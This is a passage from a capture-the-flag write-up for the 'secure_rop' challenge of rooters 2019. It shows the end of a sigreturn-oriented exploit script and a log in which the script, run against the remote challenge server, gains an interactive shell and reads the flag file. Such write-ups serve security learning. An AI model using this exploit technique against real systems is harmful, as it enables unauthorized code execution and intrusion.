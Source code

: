```python
frame.rsi = 0 # needs to be null
frame.rdx = 0 # needs to be null
frame.rip = syscall # Jump to syscall;

payload += str(frame)

p.sendline(payload)

p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-re-challenges/rooters-2019/secure_rop$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-re-challenges/rooters-2019/secure_rop/vuln'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 146.148.108.204 on port 4444: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /home/*/flag.txt
rooters{i_l0v3_5r0p}ctf
$
```

# USER ADMINISTRATION

### **Challenge**
